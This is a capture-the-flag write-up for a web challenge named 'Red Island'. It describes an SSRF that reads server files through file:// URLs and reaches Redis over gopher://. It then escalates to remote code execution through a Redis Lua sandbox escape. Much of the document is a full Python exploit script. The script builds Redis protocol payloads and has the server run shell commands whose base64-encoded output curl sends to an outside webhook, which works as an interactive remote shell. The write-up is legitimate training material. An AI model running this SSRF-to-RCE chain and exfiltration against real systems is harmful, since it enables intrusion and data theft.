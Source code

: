 ## Red Island

## Challenge Author(s):

Ulysses

## Description:

The Red Island of the glowing sea is a proud tribe of species that can only see red colors. Hence every physical item, picture, and poster on this island is masked with red colors. The Golden Fang army took advantage of the color weakness of the species of Red Island to smuggle illegal goods in and out of the island behind the ministry's back. Without an invitation, it's impossible to get entry to the island. So we need to hack the ministry and send us an invite from the inside to stop the atrocities of Draeger's men on this island. As always, Ulysses, with his excellent recon skills, got us access to one of the portals of the Red Island ministry. Can you gain access to their networks through this portal?



# Target: docker ip on demand

## Difficulty/Points: 350/easy

## Flag: HTB{r3d_righ7_h4nd_t0_th3_r3dis_land!}


## Challenge

the challenge is presented with a login and registration page. We can register a new user and enter the web application. The page show a form that we can use to submit images.

# Solution 

The first test was to use a url that uses the file protocol to display server resources. For instance file:///etc/passwd shows the protected passwd file. Taking advantage of this functionality I download the backend files 1 by 1 listing them from the index.js file and the imported files. I can see that the web application uses REDIS and by googling it is found that it is possible to exploit the gopher protocol used by REDIS to create interesting attacks via SSRF.  SSRF works if we write urlencoded paylaod of the type gopher://paylaod_urlencoded. The gopher protocol is supported by node-libcurl. On google we find some redis-based CVEs, in particular the one for the LUA sandbox comes in handy. LUA is a scripting language commonly used by REDIS, and the CVE allows us to do RCE to see the flag on our endpoint. After obtaining RCE we explore the file system until we detect the binary that reads the flag.

```python
from urllib.parse import quote
import shlex, requests

WEBHOOK="<PUT WEBHOOK HERE>"
REDIS_CMD="""eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os");local os = os_l();local f = os.execute("curl -d $({cmd}|base64 -w0) {webhook}?flag=true");' 0"""

RHOST = "http://138.68.175.87:31906"
USER = "user"
PASS = "password"

def gen_payload(cmd_split):
    payload = ""
    args = len(cmd_split)
    payload = payload + "*" + str(args) + "\r\n"
    for c in cmd_split:
        if "\\'" in c:
            c = c.replace("\\'", "'")
        c_len = len(c)
        payload = payload + "$" + str(c_len) + "\r\n"
        payload = payload + c + "\r\n"

    return payload

def main():
    s = requests.Session()
    s.post(RHOST+"/api/login", json={"username": USER, "password": PASS})
    while True:
        payload = "_"
        cmd = input('$ ')
        if cmd.lower() == "quit":
            break
        redis_cmd = REDIS_CMD.format(webhook=WEBHOOK, cmd=cmd)
        cmd_split = shlex.split(redis_cmd, posix=True)
        payload = payload + gen_payload(cmd_split)
        payload = payload + gen_payload(["quit"])
        r = s.post(RHOST+"/api/red/generate", json={"url":"gopher://127.0.0.1:6379/"+quote(payload)})
        print(r.text)

    print(quote(payload))

if __name__ == '__main__':
    main()
```

the flag will be received printed in the webhook page.